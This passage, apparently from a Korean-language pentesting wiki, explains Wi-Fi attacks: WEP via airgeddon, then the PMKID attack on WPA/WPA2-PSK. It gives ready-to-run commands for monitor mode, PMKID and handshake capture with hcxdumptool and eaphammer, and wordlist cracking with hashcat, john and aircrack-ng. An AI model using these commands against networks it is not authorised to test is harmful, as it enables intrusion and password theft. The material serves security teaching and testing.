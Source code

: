 ## **WEP**

현재는 너무 취약하고 사용되지 않습니다. _**airgeddon**_에는 이러한 종류의 보호를 공격하기 위한 "All-in-One"이라는 WEP 옵션이 있다는 것을 아는 것이 중요합니다. 더 많은 도구들이 유사한 옵션을 제공합니다.

![](<../../images/image (432).png>)

---

---

## WPA/WPA2 PSK

### PMKID

2018년, **hashcat** [revealed](https://hashcat.net/forum/thread-7717.html) 새로운 공격 방법을 공개했습니다. 이 방법은 **하나의 패킷**만 필요하고, 클라이언트가 대상 AP에 연결될 필요가 없다는 점에서 독특합니다—공격자와 AP 간의 상호작용만 필요합니다.

많은 현대 라우터는 연결 중에 **첫 번째 EAPOL** 프레임에 `Robust Security Network`로 알려진 **선택적 필드**를 추가합니다. 여기에는 `PMKID`가 포함됩니다.

원래 게시물에서 설명하듯이, **PMKID**는 알려진 데이터를 사용하여 생성됩니다:
```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
"PMK Name"이 일정하다는 점을 감안할 때, AP와 스테이션의 BSSID를 알고 있으며, `PMK`가 전체 4-way 핸드쉐이크의 것과 동일하다면, **hashcat**은 이 정보를 사용하여 PSK를 크랙하고 패스프레이즈를 복구할 수 있습니다!

이 정보를 **수집**하고 비밀번호를 로컬에서 **브루트포스**하려면 다음을 수행할 수 있습니다:
```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
캡처된 **PMKIDs**는 **콘솔**에 표시되며 **/tmp/attack.pcap** 안에 **저장**됩니다.\
이제 캡처를 **hashcat/john** 형식으로 변환하고 크랙하세요:
```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
올바른 해시의 형식은 **4부분**으로 구성되어 있습니다. 예: `4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838` 만약 당신의 해시가 **단지** **3부분**만 포함하고 있다면, 이는 **유효하지 않습니다** (PMKID 캡처가 유효하지 않았습니다).

`hcxdumptool`은 **핸드쉐이크**도 **캡처**합니다 (이와 같은 것이 나타날 수 있습니다: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). 당신은 `cap2hccapx`를 사용하여 **핸드쉐이크**를 **hashcat**/**john** 형식으로 **변환**할 수 있습니다.
```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```
_이 도구로 캡처한 일부 핸드셰이크는 올바른 비밀번호를 알고 있어도 해독할 수 없다는 것을 알게 되었습니다. 가능하다면 전통적인 방법으로도 핸드셰이크를 캡처하거나 이 도구를 사용하여 여러 개를 캡처할 것을 권장합니다._
